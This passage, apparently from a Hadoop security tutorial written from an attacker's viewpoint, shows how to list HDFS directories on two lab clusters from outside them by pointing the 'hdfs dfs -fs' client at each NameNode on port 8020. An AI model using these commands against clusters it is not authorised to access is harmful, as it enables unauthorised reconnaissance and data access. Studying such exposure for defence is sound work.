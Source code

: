 ![5-2](images/5-2.png)

Typical command to access HDFS in Hadoop is "hdfs dfs -<command> <path>". E.g.
to list '/user' directory:

```shell
hdfs dfs -ls /user
```

In our case, we are an attacker, and we are not part of the cluster, so we are
adding another parameter to this command - `-fs` to point it to the NameNode we
will be working with. it's usually the same IP we used before, but a different
port. Default is 8020 (Name Node port, I am using
[Cloudera](http://www.cloudera.com) distribution). Let's try it:

```shell
# Cluster 1
hdfs dfs -fs hdfs://192.168.1.121:8020 -ls /user

# Cluster 2
hdfs dfs -fs hdfs://192.168.1.131:8020 -ls /user
```
